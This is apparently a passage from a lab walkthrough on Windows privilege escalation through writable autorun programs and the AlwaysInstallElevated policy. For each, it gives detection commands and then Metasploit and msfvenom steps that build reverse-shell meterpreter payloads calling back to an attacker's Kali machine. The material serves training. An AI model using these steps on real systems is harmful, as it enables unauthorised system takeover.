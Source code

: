 
---
## Autorun
### Detection
Windows VM
1. Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
2. In Autoruns, click on the ‘Logon’ tab.
3. From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.
4. In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
5. From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.
### Exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
7. Copy the generated file, program.exe, to the Windows VM.

Windows VM
1. Place program.exe in ‘C:\Program Files\Autorun Program’.
2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.

Kali VM
1. Wait for a new session to open in Metasploit.
2. In Metasploit (msf > prompt) type: sessions -i [Session ID]
3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: getuid

---
## AlwaysInstallElevated
### Detection
Windows VM
1. Open command prompt and type: reg query HKLM\Software\Policies\Microsoft\Windows\Installer
2. From the output, notice that “AlwaysInstallElevated” value is 1
3. In command prompt type: reg query HKCU\Software\Policies\Microsoft\Windows\Installer
4. From the output, notice that “AlwaysInstallElevated” value is 1
### exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.
